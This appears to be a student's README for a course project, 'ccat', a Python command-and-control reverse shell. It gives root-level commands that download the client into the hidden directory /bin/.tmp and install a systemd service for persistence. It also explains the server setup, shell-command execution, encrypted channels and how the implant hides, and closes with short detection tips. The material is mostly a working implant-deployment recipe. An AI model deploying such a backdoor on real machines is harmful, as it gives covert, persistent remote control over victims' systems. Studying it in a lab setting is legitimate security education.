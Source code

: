 # C2 Project Submission
## Installation
### Client (Compromised)
On the client (compromised week 4) machine, run the following as root:
```shell
# Install pip
curl -L https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python get-pip.py
# Install necessary packages
pip install pycryptodome
# Save scripts in hidden directory
cd /bin && mkdir .tmp && cd .tmp
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
echo "python /bin/.tmp/client.py" > ccat.sh
# Add to bootup
vi /etc/systemd/system/ccat.service
```
in the vi editor, paste the following:
```
[Unit]
Description=Definitely not ccat malware

Wants=network.target
After=network-online.target

[Service]
Type=simple
ExecStart=/bin/bash /bin/.tmp/ccat.sh
Restart=on-failure
RestartSec=10
KillMode=process

[Install]
WantedBy=multi-user.target
```
and then in the shell again, run
```shell
chmod 640 /etc/systemd/system/ccat.service
chmod +x ccat.sh
systemctl daemon-reload
systemctl enable ccat  # Have ccat service run at launch!
```

### Server (Attacker)
And likewise, run the following on the attacking machine:
```shell
# Install necessary packages
pip install pycryptodome
# Save scripts
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```

## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process in the background (`python client.py &`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :) For example, I had to set the server address as 10.0.2.4.

Alternatively, after setting up configuations, you can just run
`systemctl start ccat`.

One way of figuring out the server's IP is by running `ifconfig`
from the attacking (server) machine (unless you're just running it as the hostOS,
which is normally 10.0.0.2 for VirtualBox).

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1] Also, **since the messages have padding to avoid a MITM attack,
the commands have to be fairly small** (eg. running even `cd /bin && ls` could
fail because its response is too long).

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots
ccat is safed to disk, so it'll remain after reboots. It's added to `systmctl`
to run during startup, as well (see client installation instructions). So it'll
run after the system boots up again.

### Configuration for where to get commands
See configuration.py.

### Authenticate communication
Using the pycryptodome library, I used RSA (asymmetric) encryption to encrypt
communication between the server and client. If there were more clients, I'd
make a file like
```json
{
    "0.0.0.3": "password1",
    "0.0.0.4": "password2",
    "0.0.0.5": "password3",
    "0.0.0.6": "password4"
}
```
for the server to know which password to send to each client. Each client would
have a hardcoded password to look for to grant access to the server.

### Attempt to hide itself
By saving the code in a directory starting with ".", users won't see the
directory in a GUI or with `ls` (unless they run it with the `-a` flag).

I also have the client script sleep for ten seconds before running so that
there's no immediate effect that the user could look for (if this is annoying
when grading, comment out the line with "UNCOMMENT IF THIS TAKES TOO LONG WHILE
GRADING" next to it in client.py).

I initially tried to do this with process injection (you can look at my GitHub
commits for proof), but I found that using Cython to get a C version of the
python code and then trying to link it myself was too difficult. I was so close,
if not for that darned .so shared object file. :(

## Extra Credit: Detecting ccat
```shell
ps -U root -u root u | grep client.py
```
If this prints something (other than the grep process), ccat is running! If not,
you're safe.

Some other ideas include
1. Looking at network traffic with Wireshark
2. Recursively searching the entire filesystem for ccat (via `find -R client.py` or something)
3. Look at the system journal via `journalctl`

## Resources & Credit
I used [this](https://medium.com/@songchai.d01/how-to-create-a-reverse-shell-in-python-41fe75d88521)
Medium article to learn how to use the sockets, subprocess, and sys python libraries for building a
reverse shell. I found similar resources [here](https://medium.com/geekculture/breaking-down-a-python-reverse-shell-one-liner-752041733e5f)
and [here](https://stackoverflow.com/questions/28411960/execute-a-command-on-remote-machine-in-python/28413657#28413657),
as well as the [official docs](https://docs.python.org/2.6/library/socket.html).
